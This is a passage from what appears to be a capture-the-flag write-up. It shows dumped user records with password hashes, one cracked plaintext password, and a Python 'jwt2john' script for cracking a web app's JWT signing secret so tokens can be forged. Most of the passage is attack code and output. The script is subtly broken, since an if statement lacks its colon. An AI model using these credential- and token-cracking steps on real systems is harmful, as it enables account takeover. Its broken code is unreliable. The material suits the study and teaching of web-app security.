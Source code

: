 ```json
  {
    "user_id": 3,
    "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
  }
]
```

and christopher's password can be easily cracked: 
```
christopher.jones:chris123
```

So now we can log in to the app as Christopher and we get a valid signed jwt as him.  
```python
import sys
from jwt.utils import base64url_decode
from binascii import hexlify


def jwt2john(jwt):
    """
    Convert signature from base64 to hex, and separate it from the data by a #
    so that John can parse it.
    """
    jwt_bytes = jwt.encode('ascii')
    parts = jwt_bytes.split(b'.')

    data = parts[0] + b'.' + parts[1]
    signature = hexlify(base64url_decode(parts[2]))

    return (data + b'#' + signature).decode('ascii')


if __name__ == "__main__":
    if len(sys.argv) != 2
        print("Usage: %s JWT" % sys.argv[0])
    else:
        john = jwt2john(sys.argv[1])
        print(john)
```
